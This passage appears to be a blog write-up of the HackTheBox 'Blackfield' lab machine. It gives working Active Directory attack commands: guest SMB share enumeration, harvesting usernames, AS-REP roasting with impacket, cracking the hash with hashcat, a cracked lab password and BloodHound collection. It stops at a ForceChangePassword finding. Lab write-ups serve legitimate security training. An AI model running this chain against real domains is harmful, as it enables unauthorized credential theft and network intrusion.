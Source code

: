 ## SMB

Starting with smb, we can spot that as Guest we have access to profiles share.

```
nxc smb 10.10.10.192 -u "Guest" -p "" --shares

nxc smb 10.10.10.192 -u "Guest" -p "" --share 'profiles$' --dir
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903173221.png)

All empty directories, but names could be possible usernamse, I will user nxc over smbclient this time, cause it is easier to copy names. Save it to txt and cut only usernames using awk:

```
cat users.txt | awk '{print $12}' > usernames.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903173429.png)

### ASREPRoast

Tried user as password but no result, next thought is searching for  AS-REP Roasting with usernames, I probably should use kerbrute first to cut only valid users but it was speedrun :D

```
for user in $(cat usernames.txt); do impacket-GetNPUsers -no-pass -dc-ip 10.10.10.192 blackfield.local/$user | grep krb5asrep; done
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903174513.png)

Great we have support user, and I was able to crack password

```
hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt --show
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903174653.png)

support `#00^BlackKnight`
Checking permissions 

```
nxc smb 10.10.10.192 -u "support" -p "#00^BlackKnight"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903174858.png)

No more access in share, no Pwned!, so checked bloodhound for other privs

```
bloodhound-python -d BLACKFIELD.local -u support -p '#00^BlackKnight' -ns 10.10.10.192 -c all
```

Ok starting I see outbound object control and it is ForceChangePassword to audit2020 user
